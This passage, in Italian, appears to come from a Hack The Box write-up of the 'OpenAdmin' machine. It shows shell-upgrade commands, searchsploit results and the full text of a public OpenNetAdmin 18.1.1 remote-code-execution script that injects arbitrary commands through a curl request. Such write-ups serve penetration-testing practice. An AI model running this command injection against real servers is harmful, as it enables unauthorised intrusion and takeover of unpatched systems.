 facciamo il solito update

```bash
SHELL=/bin/bash script -q /dev/null


^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```

e siamo pronti per continuare l'enumerazione.

## Alternative foothold

Cercando con [Searchsploit](Note/Tool/Searchsploit.md) troviamo questa RCE

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# searchsploit OpenNetAdmin
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)| php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution| php/webapps/47691.sh
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Scarichiamo e guariamolo 

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# cat 47691.sh
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
